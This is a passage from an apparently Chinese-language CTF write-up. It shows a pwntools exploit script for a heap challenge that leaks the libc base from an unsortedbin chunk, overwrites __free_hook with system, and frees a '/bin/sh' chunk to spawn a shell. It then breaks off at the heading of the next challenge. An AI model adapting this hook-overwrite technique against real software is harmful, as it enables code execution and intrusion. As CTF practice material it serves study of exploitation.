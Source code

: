```py
add(6, p64(0) + p64(0x0007000000000000))

edit_size(4)
# alloc 一个 chunk，在程序最开始运行时为了输入名称而 alloc 的 0x300 chunk，并 free 它使其进入 unsortedbin
edit_head(chunk_name_addr + 0x10)
add(7, b'nothing here')
delete(7)

libc_offset = u64_(view(7))
libc_base = libc_offset - 0x1ecbe0
libc.address = libc_base
print(f'libc_base:            {hex(libc_base)} ')
print(f'__free_hook:          {hex(libc.symbols['__free_hook'])}')

edit_size(4)

edit_head(libc.symbols['__free_hook'])
add(8, p64(libc.symbols['system']))

edit_size(4)
edit_head(chunk_2_addr + 0x20)
# alloc 一个 chunk 内容为 "/bin/sh"，在 free 时其 rsi 即为 &"/bin/sh"
add(9, b'/bin/sh\x00')
delete(9)

p.interactive()
```

# [](#header-3)pwn smart_home

明天更新

(完)